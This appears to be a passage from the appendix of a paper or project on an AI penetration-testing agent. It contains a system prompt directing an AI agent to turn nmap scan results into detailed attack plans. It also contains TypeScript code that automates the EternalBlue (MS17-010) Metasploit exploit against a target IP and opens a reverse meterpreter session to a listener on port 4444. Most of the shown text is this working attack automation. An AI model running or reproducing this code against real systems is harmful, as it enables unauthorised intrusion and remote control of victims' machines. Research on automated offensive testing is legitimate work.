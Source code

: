 ```python
SECURITY_ANALYST_PROMPT = ChatPromptTemplate.from_messages([
    ("system", """
    You are a specialized cybersecurity analyst focused on vulnerability assessment.
    Your primary responsibility is to analyze nmap scan results, identify vulnerabilities,
    map them to the MITRE ATT&CK framework, and generate detailed attack plans.
    
    When provided with nmap scan results, you should:
    1. Identify all potential vulnerabilities
    2. Map each vulnerability to the appropriate MITRE ATT&CK technique
    3. Generate a comprehensive attack plan
    4. Prioritize vulnerabilities based on severity
    
    Use the security_analyst tool to perform your analysis. This tool requires nmap scan results
    as input, which can be in JSON format (from the nmap_tool) or raw text format.
    
    IMPORTANT: The security_analyst tool must only be used with the results from a previous nmap scan.
    NEVER call security_analyst with an empty object or without nmap results.
    
    If you need to run a new nmap scan, use the nmap_tool first, then pass its results to security_analyst.
    """),
    ("human", "{input}"),
    ("placeholder", "{agent_scratchpad}")
])
```

#### D.2 MITRE ATT&CK Technique Implementation

```typescript
export const MS17_010_TECHNIQUE: MitreAttackTechnique = {
  id: "T1190",
  name: "Exploit Public-Facing Application",
  description: "Exploit MS17-010 vulnerability in SMB service",
  tactic: "initial-access",
  implementation: async (context: ExecutionContext): Promise<StepResult> => {
    const { target, metasploitClient } = context;
    
    // Set up the exploit
    await metasploitClient.execute("use exploit/windows/smb/ms17_010_eternalblue");
    await metasploitClient.execute(`set RHOSTS ${target.ip}`);
    await metasploitClient.execute("set LHOST tun0");
    await metasploitClient.execute("set LPORT 4444");
    
    // Run the exploit
    const result = await metasploitClient.execute("exploit -j");
    
    // Check for success
    const sessions = await metasploitClient.execute("sessions -l");
    const success = sessions.includes("meterpreter");
    
    return {
      success,
      output: result,
      artifacts: { sessions }
    };
  },
  requirements: ["open-port:445"],
  provisions: ["system-access", "meterpreter-session"],
  difficulty: "medium"
};
```
